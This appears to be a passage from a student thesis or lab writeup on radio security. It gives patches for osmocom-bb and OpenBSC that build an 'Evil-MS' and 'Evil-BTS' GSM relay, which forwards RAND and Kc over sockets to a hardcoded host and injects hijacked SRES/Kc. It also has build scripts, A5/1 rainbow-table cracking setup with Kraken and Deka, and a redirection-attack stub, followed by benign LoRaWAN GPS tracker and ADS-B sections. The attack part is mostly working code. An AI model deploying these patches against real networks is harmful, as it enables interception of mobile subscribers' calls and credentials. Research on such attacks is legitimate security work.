    * $Id: hex2ascii.c,v 1.1 2009/09/19 23:56:49 grog Exp $
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include "suppress_space.h"
   char hexdigit (char c)
   {
     char outc;

     outc = c -'0';
     if (outc > 9)                                 /* A - F or a - f */
       outc -= 7;                                  /* A - F */
     if (outc > 15)                                /* a - f? */
       outc -= 32;
     if ((outc > 15) || (outc < 0))
     {
       fprintf (stderr, "Invalid character %c, aborting\n", c);
       exit (1);
     }
     return outc;
   }
   char ascii[17];
   const unsigned char* hex2ascii(char hexval[])
   {  int arg;
     char *c=spaces(hexval);
     int sl;
     char oc;

     for (arg = 0; arg < 17; arg++)
     {
       sl = strlen (c);
       if (sl & 1)                                 /* odd length */
       {
         fprintf (stderr,
                  "%s is %d chars long, must be even\n",
                  c,
                  sl );
         return "prout";
       }int i=0;
       while (*c)
       {
         oc = (hexdigit (*c++) << 4) + hexdigit (*c++);
         fputc (oc, stdout);
         strcat(ascii,&oc);
       }
     }
   return ascii;}

client.h (respect address and port of client server arch)

.. code-block:: c

   /**
    * Example taken from CS 241 @ UIUC
    * Edited by Austin Walters
    * Used as example for austingwalters.com,
    * in socket IPC explanation.
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include <sys/types.h>
   #include <sys/socket.h>
   #include <netdb.h>
   #include <unistd.h>

   void client(char buffer[]){

     int sock_fd = socket(AF_INET, SOCK_STREAM, 0);

     struct addrinfo info, *result;
     memset(&info, 0, sizeof(struct addrinfo));
     info.ai_family = AF_INET;
     info.ai_socktype = SOCK_STREAM;

     if(0 != getaddrinfo("172.17.0.3", "888", &info, &result))
       exit(1);

     /* Connects to bound socket on the server */  
     connect(sock_fd, result->ai_addr, result->ai_addrlen);

     printf("SENDING: %s", buffer);
     write(sock_fd, buffer, strlen(buffer));

     char resp[999];
     int len = strlen(buffer);
     resp[len] = '\0';
     printf("%s\n", resp);
   }

server.h (respect variable length : 13 for sres, 25 for kc, 51 for rand, and port from arch client-server) 

.. code-block:: c

   /**
    * Written by Austin Walters
    * For an example on austingwalters.com,
    * on sockets
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include <sys/types.h>
   #include <sys/socket.h>
   #include <netdb.h>
   #include <unistd.h>
   char text[13];
   char* catch_sres(){

     int sock_fd = socket(AF_INET, SOCK_STREAM, 0);
     struct addrinfo directives, *result;
     memset(&directives, 0, sizeof(struct addrinfo));
     directives.ai_family = AF_INET;
     directives.ai_socktype = SOCK_STREAM;
     directives.ai_flags = AI_PASSIVE;

     /* Translates IP, port, protocal into struct */
     if(0 !=  getaddrinfo("0.0.0.0", "666", &directives, &result))
       exit(1);

     /* Binds socket to port, so we know where new connections form */
     if(bind(sock_fd, result->ai_addr, result->ai_addrlen) != 0)
         exit(1);
     /* Places socket to "listen" or "wait for stuff" state */
     if(listen(sock_fd, 10) != 0)
         exit(1);
     int i=0;
     printf("Waiting for connection on http://0.0.0.0:666 ...\n");
     while(i==0){

       /* Accepts Connection */
       char buffer[1000];
       int client_fd = accept(sock_fd, NULL, NULL); 
       int len = read(client_fd, buffer, 999);
       buffer[len] = '\0';

       char * header = "<b>You Connected to the Server!</b></br></br>";
       i=i+1;
       write(client_fd, header, strlen(header));

       printf("=== Client Sent ===\n");
       printf("%s\n", buffer);
       memcpy(text,buffer,13);
       close(client_fd);

     }
     return text;
   }

Evil-MS :
---------

.. code-block:: bash

   git clone https://github.com/osmocom/osmocom-bb
   git checkout fc20a37cb375dac11f45b78a446237c70f00841c
   wget https://gitlab.com/francoip/thesis/raw/public/patch/thesis.patch
   patch -p1 < thesis.patch

.. code-block:: patch

   diff -ru osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c
   --- osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:39:46.222274989 +0200
   +++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c 2022-08-30 15:35:55.472598046 +0200
   @@ -20,6 +20,7 @@
     */

    #include <stdint.h>
   +#include <string.h>
    #include <errno.h>
    #include <stdio.h>
    #include <string.h>
   @@ -41,7 +42,7 @@
    #include <osmocom/bb/mobile/app_mobile.h>
    #include <osmocom/bb/mobile/vty.h>
    #include <osmocom/bb/mobile/dos.h>
   -
   +#include "client.h"
    extern void *l23_ctx;

    void mm_conn_free(struct gsm48_mm_conn *conn);
   @@ -1662,6 +1663,15 @@
        */
       if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
           no_sim = 1;
   +   char test2[]="1";
   +   sprintf(test2, "%d", ar->key_seq);
   +   char test3[3]="-";//"87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
   +   strcat(test3,test2);
   +   char test[51]="87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
   +   strcpy(test,osmo_hexdump(ar->rand,16));
   +   strcat(test,test3);
   +   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (seq %s)\n", test);
   +   client(test);
       gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

       /* wait for auth response event from SIM */
   diff -ru osmocom-bb/src/host/layer23/src/mobile/subscriber.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c
   --- osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:38:53.125893570 +0200
   +++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c   2022-08-30 15:35:55.476598075 +0200
   @@ -30,6 +30,11 @@
    #include <osmocom/bb/common/osmocom_data.h>
    #include <osmocom/bb/common/networks.h>
    #include <osmocom/bb/mobile/vty.h>
   +#include "server.h"
   +#include "server2.h"
   +#include "hex.h"
   +#include "hex2.h"
   +

    /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
     * if list is changed, the result is not written back to SIM */
   @@ -945,14 +950,21 @@

           /* store sequence */
           subscr->key_seq = key_seq;
   -       memcpy(subscr->key, vec->kc, 8);
   +

           LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
   +                char *h4ck3d_kc;
   +                h4ck3d_kc = catch_kc();
   +                const unsigned char *my_h4ck3d_kc=hex2ascii(h4ck3d_kc);
   +       char *h4ck3d_sres;
   +       h4ck3d_sres = catch_sres();
   +           const unsigned char *my_h4ck3d_sres=hex2ascii2(h4ck3d_sres);
   +       memcpy(subscr->key, my_h4ck3d_kc, 8);
           nmsg = gsm48_mmevent_msgb_alloc(GSM48_MM_EVENT_AUTH_RESPONSE);
   -       if (!nmsg)
   -           return -ENOMEM;
           nmme = (struct gsm48_mm_event *) nmsg->data;
   -       memcpy(nmme->sres, vec->sres, 4);
   +           memcpy(nmme->sres,my_h4ck3d_sres, 4);
   +       LOGP(DMM, LOGL_INFO, "KC hijacked = %s\n",osmo_hexdump(my_h4ck3d_kc,8));
   +       LOGP(DMM, LOGL_INFO, "SRES hijacked = %s\n",osmo_hexdump(my_h4ck3d_sres,4));
           gsm48_mmevent_msg(ms, nmsg);

           return 0;

Genuine-MS (Kc Forwarding)
--------------------------

Patch osmocom-bb

.. code-block:: bash

   git clone https://github.com/osmocom/osmocom-bb
   git checkout fixeria/trxcon

.. code-block:: patch

   diff -ru trx/src/host/layer23/src/mobile/gsm48_mm.c osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c
   --- trx/src/host/layer23/src/mobile/gsm48_mm.c  2022-08-30 16:41:37.076916961 +0200
   +++ osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:51:17.267099639 +0200
   @@ -1651,6 +1651,7 @@
        */
       if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
           no_sim = 1;
   +   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (rand %s)\n", osmo_hexdump(ar->rand,16));  
       gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

       /* wait for auth response event from SIM */
   diff -ru trx/src/host/layer23/src/mobile/subscriber.c osmocom-bb/src/host/layer23/src/mobile/subscriber.c
   --- trx/src/host/layer23/src/mobile/subscriber.c    2022-08-30 16:41:37.076916961 +0200
   +++ osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:51:17.267099639 +0200
   @@ -32,7 +32,7 @@
    #include <osmocom/bb/common/sap_proto.h>
    #include <osmocom/bb/common/networks.h>
    #include <osmocom/bb/mobile/vty.h>
   -
   +#include "client.h"
    /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
     * if list is changed, the result is not written back to SIM */
    //#define TEST_EMPTY_FPLMN
   @@ -369,6 +369,7 @@

       /* key */
       memcpy(subscr->key, data, 8);
   +   //client(osmo_hexdump(subscr->key,8));

       /* key sequence */
       subscr->key_seq = data[8] & 0x07;
   @@ -907,7 +908,7 @@
       struct msgb *nmsg;
       struct sim_hdr *nsh;

   -   /* not a SIM */
   +   /* not a SIM
       if (!GSM_SIM_IS_READER(subscr->sim_type)
        || !subscr->sim_valid || no_sim) {
           struct gsm48_mm_event *nmme;
   @@ -944,6 +945,7 @@

           /* store sequence */
           subscr->key_seq = key_seq;
   +       //client(osmo_hexdump(vec->kc,8));
           memcpy(subscr->key, vec->kc, 8);

           LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
   @@ -969,6 +971,7 @@

       /* random */
       memcpy(msgb_put(nmsg, 16), rand, 16);
   +   LOGP(DMM, LOGL_NOTICE, "Key Sequence=%d\n",key_seq);

       /* store sequence */
       subscr->key_seq = key_seq;
   @@ -1019,7 +1022,9 @@
       nsh->file = 0x6f20;
       data = msgb_put(nmsg, 9);
       memcpy(data, subscr->key, 8);
   -   data[8] = subscr->key_seq;
   +        LOGP(DMM, LOGL_NOTICE, "KC=%s\n",osmo_hexdump(subscr->key,8));
   +   client(osmo_hexdump(subscr->key,8));
   +   data[8] = subscr->key;
       sim_job(ms, nmsg);

       /* return signed response */

Patch OpenBSC Evil-BTS:
-----------------------

.. code-block:: bash

   git clone https://github.com/osmocom/openbsc
   git checkout 3f457a3b79e2908664b40eab9ca8e70c44a54898

.. code-block:: patch

   diff -ru openbsc/openbsc/src/libmsc/gsm_04_08.c bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c
   --- openbsc/openbsc/src/libmsc/gsm_04_08.c  2022-08-30 16:59:20.033455224 +0200
   +++ bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c 2022-08-30 15:51:17.243099474 +0200
   @@ -70,7 +70,10 @@
    #include <osmocom/gsm/tlv.h>

    #include <assert.h>
   +#include "server.h"
   +#include "hex.h"
   +#include "client.h"

    void *tall_locop_ctx;
    void *tall_authciphop_ctx;

   @@ -908,6 +911,20 @@
       struct msgb *msg = gsm48_msgb_alloc_name("GSM 04.08 AUTH REQ");
       struct gsm48_hdr *gh = (struct gsm48_hdr *) msgb_put(msg, sizeof(*gh));
       struct gsm48_auth_req *ar = (struct gsm48_auth_req *) msgb_put(msg, sizeof(*ar));
   +        DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
   +   
   +
   +
   +   char *test;
   +   test=catch_rand();
   +   printf("test %s\n",test);
   +   char *randy=strtok(test," -");
   +   printf("rand %s\n",rand);
   +   char *kandy_seq=strtok(NULL,"-");
   +   printf("key_seq %s\n",kandy_seq);
   +   char *randy_magnum = spaces(randy);
   +        const unsigned char *randynator=hex2ascii(randy_magnum);
   +        memcpy(rand,randynator,16);

       DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
       if (autn)
   @@ -917,7 +934,7 @@
       gh->proto_discr = GSM48_PDISC_MM;
       gh->msg_type = GSM48_MT_MM_AUTH_REQ;

   -   ar->key_seq = key_seq;
   +   ar->key_seq = kandy_seq;

Installing BTS-Evil:
--------------------

.. code-block:: bash

   git clone https://github.com/bbaranoff/heartbreaker

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 1.1.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   apt install -y libortp-dev
   cd ..

   git clone https://github.com/osmocom/osmocom-bb
   cd osmocom-bb/src
   git checkout fixeria/trxcon
   make nofirmware

   cd ../..
   git clone https://github.com/osmocom/libosmo-abis
   cd libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd ..
   git clone https://github.com/osmocom/libosmo-netif
   cd libosmo-netif
   git checkout 0.6.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig


   cd bsc-2rfa/openbsc
   autoreconf -fi && ./configure && make -j4
   cd ../..
   git clone https://github.com/osmocom/osmo-bts
   cd osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   apt install ruby-libxml ruby-dev ruby-dbus
   gem install serial smartcard

Installing MS-Evil :
--------------------

.. code-block:: bash

   git clone https://github.com/bbaranoff/heartbreaker

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 1.1.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   apt install -y libortp-dev
   cd ..

   git clone https://github.com/osmocom/osmocom-bb
   cd osmocom-bb/src
   git checkout fixeria/trxcon
   make nofirmware

   cd ../..
   git clone https://github.com/osmocom/libosmo-abis
   cd libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd ..
   git clone https://github.com/osmocom/libosmo-netif
   cd libosmo-netif
   git checkout 0.6.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig
   cd ..

   cd bsc-2rfa/openbsc
   autoreconf -fi && ./configure && make -j4
   cd ../..
   git clone https://github.com/osmocom/osmo-bts
   cd osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   apt install ruby-libxml ruby-dev ruby-dbus
   gem install serial smartcard

Installing MS-Evil
------------------

.. code-block:: bash

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 0.9.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig

   cd ../bb-2rfa/src
   make nofirmware

**A5/1 Cracking**
---------------------

Download the tables :

`a51_tables <https://infocon.org/rainbow%20tables/A51/>`_

Prepare them :

.. code-block:: bash


   #!/bin/bash
   offset_total=0
   echo 0 > test
   for abblay in $echo $(ls /media/$USER/tables) ; do abblay2=$(echo $abblay | sed 's/.dlt//g');
   cd /media/$USER/indexes/
   /media/$USER/indexes/kraken/TableConvert/TableConvert di /media/$USER/tables/$abblay2.dlt $abblay2.ins:$offset_total $abblay2.idx
   taille_arrondie=$(echo $(( $(( $(stat -c%s $abblay2.ins)/4096 )) +1 )) *4096 | bc)
   offset_total=$(($taille_arrondie + $offset_total))
   echo $taille_arrondie >> test
   done
   awk '{S+=$0}{print S}END{}' test > offsets
   git clone http://jenda.hrach.eu/p/deka
   git clone https://github.com/0x7678/typhon-vx/tree/master/kraken
   sudo add-apt-repository ppa:deadsnakes/ppa
   sudo apt update
   sudo apt install python3.7 python3.7-dev nvidia-utils-515-server xserver-xorg-video-nvidia-515
   sudo python3.7 -m pip install pyopencl numpy scipy
   cd deka
   ./genkernel64.sh > slice.c
   sed -i -e 's/3.5m/3.7m/g' Makefile
   make

\newpage

----

**Lora :**
--------------

**GPS tracker via LoraWAN**
-------------------------------


.. image:: uml.png
   :target: uml.png
   :alt: UML


ISO : https://drive.google.com/file/d/1YTdmb8JlvePSKiniwBKYyqXx-m-NhzIe/view?usp=sharing

**Installation du routeur sur Internet (via WiFi)**

N.B. : Pourquoi via WiFi ? Dans le cas particulier de l'Université de Perpignan Via Domitia, le FireWall "n'aime" pas les connections sur le port 1700 nécessaire à l'établissement de la connection routeur -> TheThingsNetwork.


* Plug on sector the gateway with USB-C 5V-2A
  a WiFi network dragino-XXXXXX apparait. 
* Connect to it via the password "dragino+dragino"
* Go on the webbrowser on IP 10.130.1.1 an Id/Pwd is asked by the dragino (by default) "root" / "dragino"
* Connect via the WiFi Mesh the dragino as a client to your smartphone or your box for example


.. image:: WiFi_Dragino.png
   :target: WiFi_Dragino.png
   :alt: WiFi_Dragino


**Routage des paquets LoRa vers TheThingsNetwork**


* Create a thethingsnetwork account (free, need email)
* We can see the Gateway EUI on the LoRa tab of the network interface
* We have to choose now TheThingsNetwork v3 on the defilant menu beside (the thingsnetwork v is avaible but not deserved for new gateways on TTN)
* On the second defilant menu choose eu1.cloud.thethings.network


.. image:: config_gw_ttn.png
   :target: config_gw_ttn.png
   :alt: config_gw_ttn

On thethingsnetwork :

Fill the Gateway EUI same as precedent configuration on the dragino. Le GatewayID is free but must be unique and available on TTN. The gateway name is totally free of choice.
Enfin les Gateway Server Address doit correspondre au précedent soit pour l'Europe :
eu1.cloud.thethings.network

The last option can be let as it is.

You have now your gateway connected to LoRaWAN


.. image:: config_ttn_gw.png
   :target: config_ttn_gw.png
   :alt: config_ttn_gw


**Preparation of the RaspberryPi (the connected object) :**
A raspberry is a minicomputer of the height approximatively of a Bank card with the power of a smartphone et a I/O electrical pinout. The Operationnal System of this hardware is often (and in this study) on a micro-SD card (it can be Netboot, USB/HDD, eMMC). We gonna greate the SD card with this methodology :

**The SD-Card :**

Download Raspi-Imager from
https://www.raspberrypi.com/software/

To install it on Ubuntu > 20.04 you just have to do (Ctrl-Alt-t) and type

.. code-block:: bash

   sudo snap install rpi-imager

Then we download the Debian Bullseye OS


.. image:: choose_os.png
   :target: choose_os.png
   :alt: choose_os


we select the following options
ssh : username/password (advice : "pi"/"raspberry")
Wifi : from the phone or any you have available
optional : set hostname = raspberry.local


.. image:: options_sd_rpi.png
   :target: options_sd_rpi.png
   :alt: options_sd_rpi


We the the media that will be written on
Then we put the SD-Card on the raspberry and monitor it via HDMI. Or if you don't have HDMI hardware you can access through SSH. For example if the local network is 192.168.1.0/24 you can do (on the host)

.. code-block:: bash

   nmap 192.168.1.1-254 -p 22

to know RPi IP adress or you can try

.. code-block:: bash

   sudo arp -a

Then to spawn a shell on the RPi

.. code-block:: bash

   ssh pi@ip_found_previously

or

.. code-block:: bash

   ssh pi@raspberrypi.local

Then on the shell

.. code-block:: bash

   sudo apt update && sudo apt upgrade

Now we install necessary packages

.. code-block:: bash

   sudo apt install git device-tree-compiler git python3-crypto python3-nmea2 python3-rpi.gpio python3-serial python3-spidev python3-configobj gpsd libgps-dev gpsd-clients python3-pip
   pip3 install simplecayennelpp
   git clone https://github.com/bbaranoff/libgps
   cd libgps
   make 
   sudo make install
   sudo ldconfig
   nano /etc/default/gpsd

.. code-block::

   # Default settings for the gpsd init script and the hotplug wrapper.

   # Start the gpsd daemon automatically at boot time
   START_DAEMON="true"

   # Use USB hotplugging to add new USB devices automatically to the daemon
   USBAUTO="false"

   # Devices gpsd should collect to at boot time.
   # They need to be read/writeable, either by user gpsd or the group dialout.
   DEVICES="/dev/ttyAMA0"

   # Other options you want to pass to gpsd
   GPSD_OPTIONS="-n"

Now we add to /boot/config.txt those lines at the end

.. code-block::

   enable_uart=1
   dtoverlay=miniuart-bt
   dtoverlay=spi-gpio-cs

We modify /boot/cmdline.txt to make it looks like

.. code-block::

   dwc_otg.lpm_enable=0 console=tty1 root=/dev/mmcblk0p2 rootfstype=ext4 elevator=deadline fsck.repair=yes rootwait

Then /home/pi

.. code-block:: bash

   git clone https://github.com/computenodes/dragino
   cd dragino/overlay
   dtc -@ -I dts -O dtb -o spi-gpio-cs.dtbo spi-gpio-cs-overlay.dts
   sudo cp spi-gpio-cs.dtbo /boot/overlays/
   sudo reboot

Then in /home/pi we create gpscron like :

.. code-block:: bash

   #!/bin/bash
   sudo python3 /home/pi/dragino/test_cayenne.py

It will be called par cron. (Advice ! Set ``sudo chmod 644 gpscorn`` to avoid privilege escalation)

Then we write in /home/pi/dragino : test_cayenne.py like

.. code-block:: python

   #!/usr/bin/env python3
   """
       Test harness for dragino module - sends hello world out over LoRaWAN 5 times
   """
   import logging
   from datetime import datetime
   from time import sleep
   import RPi.GPIO as GPIO
   from dragino import Dragino
   #import subprocess
   import gpsd
   from simplecayennelpp import CayenneLPP # import the module required to pack th$
   import binascii
   # importing the module
   # Connect to the local gpsd
   gpsd.connect()
   packet = gpsd.get_current()
   # See the inline docs for GpsResponse for the available data
   print(packet.position())
   lat = packet.lat
   lon = packet.lon
   alt = packet.alt

   print (lat, lon, alt)
   lpp = CayenneLPP()
   lpp.addGPS( 1, lat, lon, alt)
   text=binascii.hexlify(lpp.getBuffer()).decode()
   sent=list(binascii.unhexlify(text))
   print(text)
   logLevel=logging.DEBUG
   logging.basicConfig(filename="test.log", format='%(asctime)s - %(funcName)s - %(lineno)d - %(levelname)s - %(message)s', level=logLevel)
   D = Dragino("/home/pi/dragino/dragino.ini", logging_level=logLevel)
   D.join()
   while not D.registered():
       print("Waiting for JOIN ACCEPT")
       sleep(2)
   for i in range(0, 2):
       D.send_bytes(sent)
       start = datetime.utcnow()
       while D.transmitting:
           pass
       end = datetime.utcnow()
       print("Sent GPS coordinates ({})".format(end-start))
       sleep(1)

We take now /home/pi/dragino/dragino.ini.default to rewrite it to /home/pi/dragino/dragino.ini like

.. code-block::

   gps_baud_rate = 9600
   gps_serial_port = /dev/ttyS0
   gps_serial_timeout = 1
   gps_wait_period = 10

   #LoRaWAN configuration
   spreading_factor = 7
   max_power = 0x0F
   output_power = 0x0E
   sync_word = 0x34
   rx_crc = True
   #Where to store the frame count
   fcount_filename = .lora_fcount

   ##Valid auth modes are ABP or OTAA
   ##All values are hex arrays eg devaddr = 0x01, 0x02, 0x03, 0x04
   #auth_mode = "abp"
   #devaddr = 
   #nwskey = 
   #appskey =

   auth_mode = otaa
   deveui = 0xFF, 0xFE, 0xFD, 0xFC, 0xFC, 0xFD, 0xFE, 0xFF
   appeui = 0x70, 0xB3, 0xD5, 0x00, 0x00, 0xD5, 0xB3, 0x70
   appkey = 0x3D, 0x83, 0xC3, 0x16, 0x2C, 0xAD, 0x44, 0xB7, 0xB0, 0x50, 0x6C, 0x3C, 0xA1, 0x54, 0x36, 0xB7

By choosing DevEUI, AppEUI (unique on TTN), and AppKey with enough entropy that it can't be cracked (beware of MSB, LSB writing between dragin_cayenne.py and TTN)
Enfin pour executer le script python toutes les minutes :

.. code-block:: bash

   sudo crontab -e

We select our favorite editor to add

.. code-block::

   * * * * * /home/pi/gpscron

at the endfile.
For the raspberry we are now ready to go. Lets see from the network side

**LoraWan Conection (TheThingsNetwork)**

Go to application -> Create then in EndDevices -> + Add Endevice


.. image:: add_enddevice.png
   :target: add_enddevice.png
   :alt: add_enddevice


Then with previous parameters set on the RPi (AppEUI, DevEUI, AppKey)  in /home/pi/dragino/dragino.ini we put them on TTN

So in this study example :

.. code-block::

   deveui = 0xFF, 0xFE, 0xFD, 0xFC, 0xFC, 0xFD, 0xFE, 0xFF
   appeui = 0x70, 0xB3, 0xD5, 0x00, 0x00, 0xD5, 0xB3, 0x70
   appkey = 0x3D, 0x83, 0xC3, 0x16, 0x2C, 0xAD, 0x44, 0xB7, 0xB0, 0x50, 0x6C, 0x3C, 0xA1, 0x54, 0x36, 0xB7


.. image:: register_enddevice.png
   :target: register_enddevice.png
   :alt: register_enddevice


Power On the Pi (Trick to make GPS work (on RPi) !!!!!)

Sur le shell du pi :

.. code-block:: bash

   sudo ntpdate fr.pool.ntp.org

Put the RPi outside
Pull off the Tx Jumper of the dragino and wait for 3D Fix (the green blinking light of the dragino). Then hotplug the jumper Tx.

You should have (your first ?) connected object

**Payload Format**

In this study we have choose the CayenneLPP format like 


.. image:: format_cayenne.png
   :target: format_cayenne.png
   :alt: format_cayenne


In the created application you should see your device


.. image:: coordonnees_ttn.png
   :target: coordonnees_ttn.png
   :alt: coordonnees_ttn


**Data monitoring (Cayenne Integration)**

Go to https://mydevices.com/

Create a Cayenne Account

Select TheThingsNetwork


.. image:: add_new_cayenne.png
   :target: add_new_cayenne.png
   :alt: add_new_cayenne


Sélection Dragino RPi Hat et mettre le DevEUI


.. image:: dragino_cayenne.png
   :target: dragino_cayenne.png
   :alt: dragino_cayenne



.. image:: gps_live.png
   :target: gps_live.png
   :alt: gps_live

Live Data from GPS tracker !

\newpage

**ADSB**
------------

Automatic Dependent Surveillance Broadcast (ADS-B)

Definition

A means by which aircraft, aerodrome vehicles and other objects can automatically transmit and/or receive data such as identification, position and additional data, as appropriate, in a broadcast mode via a data link.

https://github.com/antirez/dump1090

To run the program in interactive mode, with networking support, and connect with your browser to http://localhost:8080 to see live traffic:

./dump1090 --interactive --net


.. image:: avion.png
   :target: avion.png
   :alt: avion


\newpage

**Appendix**
----------------

Redirection Attack Code

``` {r, eval=FALSE}

!/bin/bash
==========

git clone git://git.code.sf.net/p/openlte/code openlte-code
cd openlte-code
git checkout a5a66e

.. code-block::


   ``` {r, eval=FALSE, diff}

\newpage

**Bibliograpy**
-------------------

----

nocite: '@*'
------------
